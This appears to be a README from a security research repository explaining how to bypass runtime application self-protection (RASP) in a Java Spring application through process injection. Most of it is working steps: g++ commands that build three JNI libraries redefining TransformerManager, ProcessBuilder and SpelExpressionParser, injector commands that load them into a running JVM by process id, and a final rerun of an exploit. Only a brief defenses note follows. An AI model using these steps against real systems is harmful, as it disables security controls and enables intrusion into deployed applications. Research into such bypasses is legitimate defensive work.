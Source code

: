 RASP Bypass using Process Injection

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
- now rerun the exploit, you should have bypassed rasp

**Defenses**

- In order for RASP to protect against Process injection, they should work at lower level...
- RASP solutions should at least inspect critical classes modified at runtime ?
